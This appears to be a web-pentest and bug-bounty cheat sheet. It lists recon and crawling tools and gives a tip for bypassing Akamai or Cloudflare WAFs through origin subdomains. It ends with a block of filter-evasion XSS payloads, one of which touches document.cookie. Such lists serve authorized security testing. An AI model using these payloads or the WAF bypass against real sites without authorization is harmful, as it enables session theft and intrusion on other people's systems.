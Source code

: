 #### **&#x20;WAF** ####


Cloudfare/Akamai  

Security testing against Akamai?look for origin-sub.domain.com,origin.sub.domain.com bypass the filtering by going to the source.

#### **&#x20;Other Useful Tools-** ####


Eyewitness- for Screenshots

webscreenshot -for screenshots

Aquatone -for screenshots

HTTPSscreenshot -for screenshots

Openlist Chrome Extension- open tabs with specified urls 

#### **&#x20;ASN Lookup,net,** ####


http://bgp.he.net,Crunchbase      for Aquistions(Other Organisations)

 Whoxy.com,

DOMLink,

 https://builtwith.com/relationships/twitch.tv,
Google Fu,

Shodan API,

 and juicy Subdomains


#### **&#x20;tips to crawl** ####

webpaste

meg -path find

ffuf -path ' '

concurl -path ' '

comm -compares sorted files

gau -fetch js files

find -to list directory

Arjun - Find parameters on a specific endpoint

#### **&#x20;Advance Payloads:-** ####

&#x20;**for XSS**

```
1. <marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>  

		'">><marquee><img src=x onerror=confirm(1)></marquee>"
  
		></plaintext\></|\><plaintext/onmouseover=prompt(1)
  
		><script>prompt(1)</script>@gmail.com<isindex
  
		formaction=javascript:alert(/XSS/) type=submit>'-->"
  
		></script><script>alert(1)</script>"><img/id="confirm&lpar;
  
		1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
  ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
```